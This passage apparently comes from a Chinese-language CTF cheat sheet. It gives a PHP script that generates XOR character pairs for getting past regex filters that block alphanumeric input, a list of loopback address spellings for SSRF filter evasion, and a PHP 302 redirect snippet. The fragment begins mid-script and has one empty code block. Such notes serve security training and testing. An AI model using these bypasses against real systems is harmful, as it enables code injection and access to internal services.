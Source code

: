 ```php
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

取反
```php

```

## SSRF

### ip

```
127.0.0.1
localhost
0.0.0.0
::ffff:127.0.0.1
[::1]
::1
127.0.0.2
16进制

```
php302跳转
```php
<?php

$redirectUrl = "https://example.com/new-page";
header("Location: " . $redirectUrl, true, 302);
exit; // 确保在发送头部之后结束脚本的执行
?>
```
